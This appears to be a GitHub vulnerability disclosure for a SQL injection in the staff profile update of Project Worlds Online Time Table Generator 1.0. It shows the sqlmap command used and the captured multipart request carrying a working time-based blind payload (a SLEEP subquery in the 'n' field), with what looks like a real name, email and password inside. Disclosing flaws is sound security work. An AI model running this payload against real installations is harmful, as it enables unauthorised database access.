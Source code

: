 # SQL Injection vulnerability from Project Worlds Online Time Table Generator 1.0 (/staffdashboard.php)

**Affected Project**: Online Time Table Generator 1.0

**Official Website**: https://projectworlds.in/online-time-table-generator-php-mysql/

**Version**: 1.0

**Related Code file**: staffdashboard.php

**Injection parameter**: `MULTIPART n`

## Vulnerability Description

When updating profile as the staff, **MULTIPART n** parameter is vulnerable to SQL injection vulnerability.

## Demonstration

staff can update profile as such:

![Screenshot from 2024-10-27 15-43-22](https://github.com/user-attachments/assets/27475c73-41a0-45eb-b46b-43ce5041bd40)

Intercept the traffic using Burp Suite:

![Screenshot from 2024-10-27 15-43-36](https://github.com/user-attachments/assets/56230041-c4de-4e59-982b-6df28835de05)

Now copy-paste the traffic and save it in to `update.req` and run `sqlmap` against it: `sqlmap -r update.req --batch --level 5 --risk 3 --dbms mysql`

`sqlmap` automatically exploits the vulnerability:

![Screenshot from 2024-10-27 15-46-14](https://github.com/user-attachments/assets/020e0ccb-ab9e-4e1f-b672-bf7cb2a61868)

```
---
Parameter: MULTIPART n ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="dep_id"

13
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="semester"

1
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="n"

Baijnath Kaushik' WHERE 9301=9301 AND (SELECT 4111 FROM (SELECT(SLEEP(5)))tNyi)-- Zhkv
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="e"

baijnath@smvdu.ac.in
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="p"

baijnath
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="m"

1234554321
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="a"

asdasdfaf
------WebKitFormBoundaryObNAzPyhmwmlBlmM
Content-Disposition: form-data; name="update"

Update Records
------WebKitFormBoundaryObNAzPyhmwmlBlmM--
```
